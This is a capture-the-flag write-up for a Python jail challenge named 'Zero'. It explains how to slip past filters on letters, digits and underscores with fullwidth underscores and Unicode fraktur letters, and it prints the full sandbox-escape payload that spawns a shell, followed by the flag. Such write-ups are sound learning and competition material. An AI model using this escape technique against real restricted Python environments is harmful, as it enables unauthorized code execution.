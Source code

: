 # Zero
> Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping

## About the Challenge
We got a server to connect and also a source code (You cand download the source code [here](zero.zip)). This is a classic pyjail chall where we can't use alphabets (a-z), numbers (0-9), and underscore (__)

![preview](images/preview.png)

## How to Solve?
To solve this problem, im using `_＿` to bypass `__` filter (I got this bypass from ByuCTF 2023). To bypass the alphabet and numbers filter, we need to convert our payload to unicode and in this case im using [cursive text generator](https://lingojam.com/CursiveTextGenerator). Here is the final payload I used to spawn a shell

```
(𝔩:=[]._＿𝔠𝔩𝔞𝔰𝔰_＿, 𝔱:=𝔩==𝔩, 𝔩(𝔩._＿𝔟𝔞𝔰𝔢_＿._＿𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰_＿()[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱*𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱]._＿𝔦𝔫𝔦𝔱_＿._＿𝔤𝔩𝔬𝔟𝔞𝔩𝔰_＿.𝔳𝔞𝔩𝔲𝔢𝔰())[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱-𝔱](𝔱._＿𝔡𝔬𝔠_＿[~𝔱*~𝔱*~𝔱*~𝔱+~𝔱*-~𝔱*~𝔱-𝔱:-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱:-~𝔱*~𝔱*~𝔱]))
```

Since we cannot use any number characters, I used the solver from BlueHens CTF 2023 which created a variable called variable `𝔱`

![flag](images/flag.png)

## Flag
```
uoftctf{zero_security_too_apparently_lmao}
```